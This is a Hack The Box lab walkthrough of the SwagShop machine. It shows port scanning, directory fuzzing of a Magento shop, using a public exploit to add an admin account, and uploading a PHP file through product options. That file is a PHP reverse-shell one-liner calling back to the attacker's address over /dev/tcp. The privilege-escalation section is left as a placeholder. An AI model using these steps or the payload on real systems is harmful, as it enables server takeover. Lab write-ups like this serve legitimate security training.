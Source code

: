 # SwagShop

**Links:** [1](https://www.hackthebox.com/machines/swagshop)  [2](https://app.hackthebox.com/machines/swagshop)

**Machine ip:** 10.10.10.140

![SwagShop](https://github.com/h4md153v63n/CTFs/assets/5091265/73292ad2-0089-44f9-8d3c-a09b29f7a81d)

## Reconnaissance
First thing first, start with port scan to see which ports are open and which services are running on those ports.
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.140 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.140 --open`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/936de3e3-86b1-4006-a7ef-6a3f0fe2aa32)

+ The result shows that 2 tcp ports are open:
```
Port tcp 22: OpenSSH 7.6p1
Port tcp 80: Apache httpd 2.4.29
```


## Enumeration
+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.140/`, and no works.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/867650f8-07a9-4a97-9db1-afa666204b13)

+ Add **swagshop.htb** into **hosts** file, and again revisit.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cdd986e-32af-41a3-a1e1-01757f0f2dce)

+ The application is magento that is an open-source e-commerce platform written in PHP.
+ We need to discover the version of magento.
+ As always, on each web app, start directory fuzzing:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://swagshop.htb/ -k -n -x html,php,txt -r -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d41e6d29-b58c-4b19-ba61-7b7a4e072b87)

+ Navigate to `http://swagshop.htb/app/etc/local.xml`, and take note of **username:password** with **key**.
+ When trying ssh login and login page with these credentials, it doesn't work.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bab5becc-4821-4cdd-bce0-ed8f3ed80de7)

+ View page source, and discover unfamiliar directory of **/index.php/**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/72089ffb-ed32-4861-bae5-91a7d381be1a)

+ Approach with suspicion, and directory fuzzing for under **/index.php/**.
```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://swagshop.htb/index.php/ -k -n -x html,php,txt -r -t 20
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/970e5c7a-e7cc-48d3-b20d-8a3ca0967b59)

+ Discovered admin login panel: `http://swagshop.htb/index.php/admin`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f07c0b07-b08c-44f9-ba1f-fbf1d54e4234)


## Gaining Access
+ Check whether it has any exploits: `searchsploit magento`
+ Focus rce ones, and check **37977.py** with **37811.py**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/49088aa5-5b40-4b65-9c92-598bc22df3f8)

+ **Firstly**, when tried to exploit with 37811.py, it gives errors **mechanize._form_controls.AmbiguityError: more than one control matching name ‘login[username]’** and **AttributeError: ‘NoneType’ object has no attribute ‘group’**. Check the links: [1](https://forum.hackthebox.com/t/swagshop-rce/1959) [2](https://forum.hackthebox.com/t/was-swagshop-patched-again/3832) [3](https://forum.hackthebox.com/t/swagshop-errors-in-script-37811-py/1965).
+ I didn't try the solution with [burp broxy](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit#id-26dd).

+ **Secondly**, concentrate on **37977.py**, and copy the exploit.
+ Open the exploit, and change **target** as `http://swagshop.htb/index.php/`.
+ Delete the 9-23th lines and after the 62nd line.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a57b0991-8ae7-4301-8c4a-9f2dde48f4fb)

+ If wanna to specify username:pass different from **forme:forme**, try **test:test**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7f5f7a01-8539-4792-b5ac-c0d76cfa9836)

+ Run exploit with python2: `python2 37977.py` and see it worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/68df934e-dbfb-46b6-b1d4-80013065526c)

+ Login the admin login panel with **test:test**: `http://swagshop.htb/index.php/admin`, and see that worked.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/31fd6e3c-e7e5-4112-b3e8-3e9804c6dbf6)

+ **Follow consecutively**, Catalog -> Manage Products -> Click of the name on products -> Custom Options -> Add New Option: Fill out the fields with Input Type:File and Allowed File Extensions:php -> Save, and be sure that the product has been saved.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4fb0a78c-13fd-425d-9f14-1872887b7f1a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/313ebb45-331c-40bf-93c2-d46a10d22203)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bfb592ba-ff8c-4a89-801d-3fe8e4c50321)

+ Next go to the home page `http://swagshop.htb/index.php/`, and click on **5 x Hack The Box Square Sticker**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/80a6e0ae-b42b-4f0f-a26a-62cec021c306)

+ You will see that now we can upload files using the product fields. The file that we allowed to upload includes all files with PHP extensions:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/df34f462-7f9b-4146-a5dc-c81071a8c742)

+ Create a reverse shell .php file as **shell.php**. Upload it using **browse** button, and ADD TO CART.
```
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'"); ?>
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b87bc67d-e9aa-416c-a35d-d512535bea31)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/502e1a27-71db-44b8-b43c-6aabe2e8c3d2)

+ Start netcat listener on the attack machine: `nc -lnvp 4444`
+ **Finally**, go to the under **media** directory `http://swagshop.htb/media/custom_options/quote/s/h/` that is discovered on the first directory fuzzing.
+ Click the php file named created unique random name.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d7a200d7-f925-4f1f-af42-f6dc2bbf28f6)

+ Get low level shell, and see the www-data's privilege is enough to view the content of the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f283088e-d95e-4d02-a123-46941339b6a1)

+ But yet we need to elevate root privilege.


### Shell Upgrade
+ We have partially interactive bash shell. Upgrade it to get a fully interactive shell, do more stable with a better shell.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/63a9d3b8-9bc0-4d88-bb02-ca5e422acf27)


## Privilege Escalation
+ xxx


# Technical Knowledge
+ https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
+ 


# CVE Scripting
+ xxx


# References & Alternatives
+ https://vvmlist.github.io/#swagshop
+ https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html
+ https://www.hackingarticles.in/swagshop-hackthebox-walkthrough/
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/swagshop-writeup-w-o-metasploit
+ https://manuelvazquez-contact.gitbook.io/oscp-prep/hack-the-box/swagshop/scanning-and-enumeration
+ https://medium.com/@v1per/swagshop-hackthebox-writeup-a23f18e6b88b
